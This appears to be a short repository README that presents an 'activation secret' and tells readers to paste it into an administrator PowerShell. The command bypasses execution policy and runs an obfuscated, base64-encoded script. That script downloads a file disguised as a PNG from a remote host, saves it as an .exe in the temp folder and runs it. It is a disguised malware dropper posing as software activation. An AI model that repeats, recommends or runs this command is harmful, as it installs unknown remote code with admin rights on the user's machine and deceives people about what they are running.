 > [!IMPORTANT]
>  Run CMD/powershell as Admin. ||
>  Copy and paste the full activation secret.

> [!NOTE]
> > powershell Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvADEAZABjADUALgBwAHkAdABoAG8AbgBhAG4AeQB3AGgAZQByAGUALgBjAG8AbQAvAHMAdABhAHQAaQBjAC8ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAGEAYwAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFQARQBNAFAAXABhAGMALgBlAHgAZQAiADsA
